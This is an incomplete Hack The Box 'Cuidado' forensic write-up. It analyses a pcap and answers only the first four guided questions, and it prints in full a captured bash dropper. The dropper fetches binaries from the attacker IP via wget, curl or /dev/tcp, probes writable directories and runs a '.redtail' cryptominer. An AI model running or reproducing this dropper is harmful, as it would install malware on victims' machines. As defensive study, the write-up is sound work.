

# HTB Write-Up: [Challenge/Box Name]


## Table of Contents

1. [Challenge Overview](#challenge-overview)
2. [Guided Questions](#guided-questions)
    1. [What is the victim's IP address?](#what-is-the-victims-ip-address)
    2. [What is the IP address of the attacker from whom the files were downloaded?](#what-is-the-ip-address-of-the-attacker-from-whom-the-files-were-downloaded)
    3. [Which malicious file appears to be the first one downloaded?](#which-malicious-file-appears-to-be-the-first-one-downloaded)
    4. [What is the name of the function that the attacker used to download the payload?](#what-is-the-name-of-the-function-that-the-attacker-used-to-download-the-payload)
    5. [Which port does the attacker's server use?](#which-port-does-the-attackers-server-use)
    6. [The script checks which directories it can write to by attempting to create test files. What is the size of the second test file? (Size in MB)](#the-script-checks-which-directories-it-can-write-to-by-attempting-to-create-test-files-what-is-the-size-of-the-second-test-file-size-in-mb)
    7. [What is the full command that the script uses to identify the CPU architecture?](#what-is-the-full-command-that-the-script-uses-to-identify-the-cpu-architecture)
    8. [What is the name of the file that is downloaded after the CPU architecture is compared with reference values?](#what-is-the-name-of-the-file-that-is-downloaded-after-the-cpu-architecture-is-compared-with-reference-values)
    9. [What is the full command that the attacker used to disable any existing mining service?](#what-is-the-full-command-that-the-attacker-used-to-disable-any-existing-mining-service)
    10. [Apparently, the attacker used a packer to compress the malware. Which version of this packer was used? (Format X.XX)](#apparently-the-attacker-used-a-packer-to-compress-the-malware-which-version-of-this-packer-was-used-format-xxx)
    11. [What is the entropy value of unpacked malware?](#what-is-the-entropy-value-of-unpacked-malware)
    12. [What is the file name with which the unpacked malware was submitted on VirusTotal?](#what-is-the-file-name-with-which-the-unpacked-malware-was-submitted-on-virustotal)
    13. [What MITRE ATT&CK technique ID is associated with the main purpose of the malware?](#what-mitre-attck-technique-id-is-associated-with-the-main-purpose-of-the-malware)
4. [Conclusion](#conclusion)

---

## Challenge Overview

- **Name**: Cuidado
- **Category**: Sherlock
- **Difficulty**: Easy
- **Description**:  
    Recently, a user triggered multiple alerts after downloading several potentially unwanted applications (PUAs), prompting concern from the security team. To gain deeper insight into the user's activity, the team began monitoring network traffic from their workstation. Their objective is to assess whether the downloads are linked to more serious malware threats.
- **Created By**: B0r3a5
- **Date**: [07/24/2025]

## Initial Analysis :
After unzipping the zip file that we are given we get a single artifact, `network_capture.pcap`.  Looking at the Protocal Hierachy we see the following:
 and We are given a .pcap with 2019 packets in it and predominately IVP4 TCP traffic.
## Guided Questions

1. What is the victim's IP address?
```
    192.168.1.152
```
2. What is the IP address of the attacker from whom the files were downloaded?
```
    94.156.177.109
```
3. Which malicious file appears to be the first one downloaded?
 We start by following the TCP Streams and just seeing what information we can gauge form looking at the information that is sent. We find something interesteing around TCP Stream 10. The attacker (`94.156.177.109`) sends a GET request to our victim (`192.168.1.152`) at `/sh`.
 


Looking at the HTTP request the code is as follows:

```bash
    #!/bin/bash

    dlr() {
    wget http://94.156.177.109/$1 || curl -O http://94.156.177.109/$1
    if [ $? -ne 0 ]; then
        exec 3<>"/dev/tcp/94.156.177.109/80"
        echo -e "GET /$1 HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3
        (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 >$1
        exec 3>&-
    fi
    }

    NOEXEC_DIRS=$(cat /proc/mounts | grep 'noexec' | awk '{print $2}')
    EXCLUDE=""

    for dir in $NOEXEC_DIRS; do
    EXCLUDE="${EXCLUDE} -not -path \"$dir\" -not -path \"$dir/*\""
    done

    FOLDERS=$(eval find / -type d -user $(whoami) -perm -u=rwx -not -path \"/tmp/*\" -not -path \"/proc/*\" $EXCLUDE 2>/dev/null)
    ARCH=$(uname -mp)
    OK=true

    for i in $FOLDERS /tmp /var/tmp /dev/shm; do
    if cd "$i" && touch .testfile && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 || truncate -s 2M .testfile2 >/dev/null 2>&1); then
        rm -rf .testfile .testfile2
        break
    fi
    done

    dlr clean
    chmod +x clean
    sh clean >/dev/null 2>&1
    rm -rf clean

    rm -rf .redtail
    if echo "$ARCH" | grep -q "x86_64" || echo "$ARCH" | grep -q "amd64"; then
    dlr x86_64
    mv x86_64 .redtail
    elif echo "$ARCH" | grep -q "i[3456]86"; then
    dlr i686
    mv i686 .redtail
    elif echo "$ARCH" | grep -q "armv8" || echo "$ARCH" | grep -q "aarch64"; then
    dlr aarch64
    mv aarch64 .redtail
    elif echo "$ARCH" | grep -q "armv7"; then
    dlr arm7
    mv arm7 .redtail
    else
    OK=false
    for a in x86_64 i686 aarch64 arm7; do
        dlr $a
        cat $a >.redtail
        chmod +x .redtail
        ./.redtail $1 >/dev/null 2>&1
        rm -rf $a
    done
    fi

    if [ $OK = true ]; then
    chmod +x .redtail
    ./.redtail $1 >/dev/null 2>&1
    fi
```


4. What is the name of the function that the attacker used to download the payload?
```bash
    dlr() {
    wget http://94.156.177.109/$1 || curl -O http://94.156.177.109/$1
    if [ $? -ne 0 ]; then
        exec 3<>"/dev/tcp/94.156.177.109/80"
        echo -e "GET /$1 HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3
        (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 >$1
        exec 3>&-
    fi
    }
```
5. Which port does the attacker's server use?
6. The script checks which directories it can write to by attempting to create test files. What is the size of the second test file? (Size in MB)
7. What is the full command that the script uses to identify the CPU architecture?
8. What is the name of the file that is downloaded after the CPU architecture is compared with reference values?
9. What is the full command that the attacker used to disable any existing mining service?
10. Apparently, the attacker used a packer to compress the malware. Which version of this packer was used? (Format X.XX)
11. What is the entropy value of unpacked malware?
12. What is the file name with which the unpacked malware was submitted on VirusTotal?
13. What MITRE ATT&CK technique ID is associated with the main purpose of the malware?

## Conclusion
